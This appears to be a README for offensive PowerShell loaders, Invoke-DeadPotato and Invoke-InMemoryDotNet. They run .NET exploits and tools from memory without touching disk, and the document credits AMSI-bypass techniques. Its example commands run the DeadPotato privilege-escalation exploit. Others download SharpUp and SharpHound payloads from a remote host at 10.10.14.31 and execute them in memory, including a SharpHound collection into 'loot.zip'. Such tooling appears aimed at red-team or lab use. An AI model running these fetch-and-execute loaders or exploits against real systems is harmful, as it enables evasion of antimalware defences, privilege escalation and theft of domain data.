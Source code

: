 ### Inspiration and code that has been incorporated into these scripts

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b

---

- **Invoke-DeadPotato** – A specific loader for the DeadPotato exploit
- **Invoke-InMemoryDotNet** – A generalized loader for any .NET assembly with a static `Main(string[] args)` method.


## Invoke-DeadPotato

`Invoke-DeadPotato` is a specialized PowerShell loader designed to execute the **[DeadPotato](https://github.com/lypd0/DeadPotato)** .NET exploit (or any similarly structured binary) directly from memory. It supports embedded or remotely hosted gzipped+Base64 payloads. This can be generalized to use any .Net assembly with a public Main method.

### Features

- Loads DeadPotato (or similar tool) from Base64+gzipped payload
- Executes in-memory without touching disk
- Allows command-line arguments (e.g., `-cmd whoami`)
- Captures console output and returns result

### Parameters

| Parameter    | Description                                      |
|-------------|--------------------------------------------------|
| `-Arguments` | Command-line string to pass to DeadPotato        |
| `-UseRemote` | Optional URL to load gzipped+Base64 binary       |

### Examples

#### Run embedded DeadPotato
```powershell
Invoke-DeadPotato -Arguments "-cmd whoami"
```

### Notes

- The class name must be `DeadPotato.Program` with a public static `Main` method (will need to download, change line `static void Main(string[] args)` to `public static void Main(string[] args)`, and recompile).
- You must insert a valid gzipped Base64-encoded payload into the `$b64` variable.
- Output is captured and returned as a string.


## Invoke-InMemoryDotNet (not extensively tested yet)

`Invoke-InMemoryDotNet` is a PowerShell loader that dynamically executes any .NET assembly in memory. It supports embedded payloads or remote retrieval via URL. The assembly must expose a public static `Main(string[] args)` method.

### Features

- Executes gzipped + Base64-encoded .NET assemblies entirely in memory
- Supports embedded payload or remote download via HTTP/S
- Captures and returns all `Console.WriteLine` output
- Generic support for any .NET tool with a `Main` entry point (e.g., SharpUp, SharpHound, Seatbelt)

### Parameters

| Parameter    | Description                                       |
|-------------|---------------------------------------------------|
| `-Arguments` | String of arguments to pass to the Main method    |
| `-UseRemote` | URL pointing to a gzipped+Base64-encoded payload  |
| `-TypeName`  | Optional: class name containing the Main method   |
| `-MethodName`| Optional: method to invoke (default: `Main`)      |

### Examples

#### Run embedded payload
```powershell
Invoke-InMemoryDotNet -Arguments "-f all"
```

#### Download SharpUp and run
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpUp.gz.b64" -Arguments "-f all"
```

#### Execute SharpHound collector
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpHound.gz.b64" -Arguments "--CollectionMethod All --ZipFileName loot.zip"
```
